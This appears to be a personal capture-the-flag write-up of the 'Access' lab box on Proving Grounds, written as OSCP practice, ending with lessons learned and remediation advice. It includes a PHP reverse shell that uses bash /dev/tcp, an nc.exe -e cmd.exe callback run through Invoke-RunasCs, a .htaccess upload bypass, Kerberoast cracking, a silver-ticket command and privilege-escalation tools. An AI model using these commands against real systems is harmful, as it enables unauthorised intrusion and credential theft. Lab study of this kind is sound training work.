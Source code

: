 ```yaml
---
layout: writeup
title: Access - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Access Box from Proving Grounds
image: # /assets/images/Access/Access.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi, Active Directory, WerTrigger, Invoke-RunasCs]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Active, and it is rated Intermediate by Proving Grounds and Very hard by the community. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

It looks like we may be working with a domain controller here so I get started with the usual beginning enumeration: SMB access without auth (denied), adding the target to `/etc/hosts` (access.offsec), running feroxbuster on the web port, checking `enum4linux` (nothing), and checking if there are any unusual ports. We don't see anything especially interesting with TCP or UDP, though we do also have port 5985 so perhaps winrm access in the future. Then it's time to check out the web page:

![Access2.png](/assets/images/Access/Access2.png){: .responsive-image}

I check around looking for anything interesting and checking input fields for SQL injection. Looks like nothing here in the `Contact Us` form, but maybe there's an interesting reason why the PHP Email Form Library can't be loaded. 

![Access3.png](/assets/images/Access/Access3.png){: .responsive-image}

One field that is almost certainly interesting is when we click the `Buy Now` button for tickets, we get an Upload Image option to go with our name and email. I upload a test `.jpg` and find it in the `/uploads` directory. 

![Access4.png](/assets/images/Access/Access4.png){: .responsive-image}

We know that the server uses PHP for a few reasons (Apache server, the names of some of the return files in feroxbuster, the screenshot above), so the goal is probably to upload a PHP file in some way. A simple php file is not allowed, which we can confirm by testing it:

![Access5.png](/assets/images/Access/Access5.png){: .responsive-image}

But maybe we can upload something else. I try `.phptml`,`.php5`,`.pHP7`, but none of them work, and I assume we need to try a different approach. Uploading `.php.jpg` works, but it doesn't execute. I checked my notes and decided to try uploading a `.htaccess` file to help me execute a different file extension as php. I created the file with: `echo "AddType application/x-httpd-php .pop" > .htaccess`, and succeeded in uploading the file. Then I was able to upload `ivan445.pop`. Unfortunately when I selected it, I got an error: 
```
DAEMONIZE: pcntl_fork() does not exists, moving on...
SOC_ERROR: 10060: A connection attempt failed because the connected party did not properly respond after a period of time, or established connection failed because connected host has failed to respond
```

I think this is the error from the ivan php reverse shell, so that would mean that it did in fact execute. Maybe I can upload something else to prove it. I create `info.pop` with `<?php phpinfo();?>` and then  upload it. This time it clearly executes, so we're on the right track.

![Access6.png](/assets/images/Access/Access6.png){: .responsive-image}

I just did HTB/Updown **Add link** which used a tool called [dfunc_bypasser](https://github.com/teambi0s/dfunc-bypasser/tree/master) to check which dangerous PHP modules should be disabled, meaning for my purposes which can be exploited. I get this list:
```
Please add the following functions in your disable_functions option: 
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,ld,mail
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

One that sticks out to me is `proc_open` because I know there is a [revshells](revshells.com) php shell that uses it. So I decided to make a file out of that which looks like this:

```
<?php
$proc=proc_open("bash -c 'bash -i >&/dev/tcp/10.10.14.3/445 0>&1'",
  array(
    array("pipe","r"),
    array("pipe","w"),
    array("pipe","w")
  ),
  $pipes);
print stream_get_contents($pipes[1]);
?>
```

That failed too. Then I realized I was using my IP address for HTB which starts with `10.10...` whereas Proving Grounds starts with `192.168...`. So I update my [ivan sincek](https://github.com/ivan-sincek/php-reverse-shell) with the correct IP, upload it and it works. Oops. 

![Access7.png](/assets/images/Access/Access7.png){: .responsive-image}

I look around for a bit, and I see that there is a `svc_mssql` user in `C:\Users`, even though we don't have a port 1433 showing open. I look around for a bit and run some initial scripts including winpeas.exe. I don't find anything especially interesting, but I do find something when I use `adPEAS.ps1`. This checks for kerberoastable users, which we could do with Rubeus or something else, but it makes it nice and easy. Plus, we find something for the `svc_mssql` user:

![Access8.png](/assets/images/Access/Access8.png){: .responsive-image}

I copy this to my machine and try to crack it with hashcat, and it cracks quickly with: `hashcat -m 13100 mssql.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`. We get the credentials `mssql_svc`:`trustno1`. 

I went back with these credentials and tried to see what access I had with wirnm (none) and smb (some, but nothing on the shares). Then I tried to use `Invoke-RunasCS.ps1` from[antonioCoco](https://github.com/antonioCoco/RunasCs/tree/master), but I couldn't get that working. I furthermore couldn't find anything interesting doing manual enumeration. I did try to get a silver ticket with impacket-ticketer by importing `PowerView.ps1` to grab the domain SID and Target SPN of the  `SVC_MSSQL` user. I needed the NTLM hash too, but since I already had the password, it was easy to use [CodeBeautify.org](https://codebeautify.org/ntlm-hash-generator) to generate it. The full command was `impacket-ticketer -nthash F773C5DB7DDEBEFA4B0DAE7EE8C50AEA -domain-sid S-1-5-21-537427935-490066102-1511301751 -domain access.offsec -spn MSSQLSvc/DC.access.offsec -user-id 500 Administrator`. I couldn't get that ticket working though. 

I also checked bloodhound and did a dump of the ldap info with `ldapdomaindump`. I did notice a few kernel exploits, but I'd been hoping to avoid those, as they are often not the intended path for these labs. 

I got stuck here for a while before going back to `Invoke-RunasCs.ps1`. I tried it previously, but the issue was part of my syntax I guess. When trying to use it with the `nc.exe` binary, I did see it working in one directory and failing in another, so that was annoying. Same version and everything, I copied it from the failing directory to the working on. Ultimately the command was `Invoke-RunasCs svc_mssql trustno1 'c:/xampp/htdocs/uploads/nc.exe 192.168.45.204 4444 -e cmd.exe'`. If you run the `nc.exe` binary from `C:\Users\svc_apache\nc.exe`, it fails with an error: 
```
[*] Warning: The logon for user 'svc_mssql' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[-] RunasCsException: CreateProcessWithLogonW logon type 2 failed with error code: Access is denied
```

Running it again with the `--bypass-uac` and `--logon-type '8'` does not fix it. It turns out, because you are running it as the passed user (`svc_mssql`), you must run it from a directory that they are allowed to run it from.  Lesson learned. Regardless, once I run it correctly, I get a shell:

![Access9.png](/assets/images/Access/Access9.png){: .responsive-image}

Interesting, it looks like we have a new privilege: `SeManageVolumePrivilege`. I think I even have an exploit in my server folder for that. I can simply download the latest release of `SeManageVolumeExploit.exe` from [this](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)github repo from `CsEnox`, and run it on the machine as is: `.\SeManageVolumeExploit.exe`. 

![Access10.png](/assets/images/Access/Access10.png){: .responsive-image}

Now - my privileges have not changed. But I can list and read files on any part of the `C:\` including the `root.txt` flag.

![Access11.png](/assets/images/Access/Access11.png){: .responsive-image}

I think this is technically enough for the OSCP, at least as far as the scoring goes. Maybe they don't count it if you don't get a privileged user, but for the screenshot you just have to have a screenshot with the ouput of `ipconfig`, `hostname`, and `type root.txt`. But we might as well get the SYSTEM access as well, given that it should be doable if we can write any file. This is more intuitive on Linux - we can just edit `/etc/password` or add a root ssh key or something. But for Windows, it's a bit less simple,but very doable. We can use an exploit called `WerTrigger.exe`, which we can find [here](https://github.com/sailay1996/WerTrigger). The instructions are very simple, and only require you to upload three files to the machine:

1. As an administrator, copy `phoneinfo.dll` to `C:\Windows\System32\`
2. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
3. Then, run `WerTrigger.exe`.
4. Enjoy a shell as NT AUTHORITY\SYSTEM.

Well I tried that, and it didn't work. 

![Access12.png](/assets/images/Access/Access12.png){: .responsive-image}

Then I tried [FileWrite2system](https://github.com/sailay1996/FileWrite2system), which didn't work either. Then I tried [UsoDllLoader](https://github.com/itm4n/UsoDllLoaderc), same thing. I tried adding a malicious `.dll` to `C:\Windows\System32\wbem\tzres.dll` and running `systeminfo`, and then adding a malicious `.dll` to `C:\Windows\System32\edgegdi.dll` and triggering it with `Update-MpSignature`. Both of those suggestions I found in a [list](https://github.com/sailay1996/awesome_windows_logical_bugs/blob/master/FileWrite2system.txt) with similar vulnerabilities for logical bugs. 

I checked for other writeups, and I found nothing suggested beyond what I'd already tried. I checked the Offsec Proving Grounds Discord and found only other people with similar difficulties. The only one who'd said they solved it just used the same `SeManageVolumeExploit.exe` that I did that helped them to read the file, but not get a SYSTEM shell. So I'm going ot have to call it. I'm sure there's a way to do the box, but it doesn't appear to be through the intended vulnerability. 

### Lessons Learned
- You have to run `Invoke-RunasCs` from a directory that the user you are trying to run commands as can access. 
- We can upload `.hataccess` so that custom extensions are executed as we say.
- The `SeManageVolume` privilege can help us to read any file.

### Remediation Steps
- Don't allow us to upload the `.htaccess` file allowing us to upload `.pop` file and execute them as `.php`, maybe this could be accomplished with an allow list. 
- Restrict the access to the `/uploads` directory entirely actually. There's no need for users of the site to access it. 
- Prevent us from kerberoasting the `svc_mssql` user, perhaps by removing the SPN if unnecessary or using a managed service account. 
- Furthermore enforce a stronger password - `trustno1` isn't going to cut it. 
- Don't allow the `svc_mssql` user the `SeManageVolume` privilege if unnecessary. 
- Other than that, great stuff apparently.
